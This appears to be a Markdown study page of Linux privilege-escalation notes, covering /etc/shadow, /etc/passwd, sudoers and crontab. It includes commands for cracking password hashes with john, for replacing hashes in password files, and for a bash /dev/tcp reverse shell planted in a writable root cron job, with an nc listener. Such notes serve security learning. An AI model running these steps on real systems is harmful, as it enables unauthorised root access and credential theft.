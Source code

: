 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.

  <img src="../imgs/sudoers.png" alt="sudoersImg" />
  <br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. Instead, `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.
  


  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
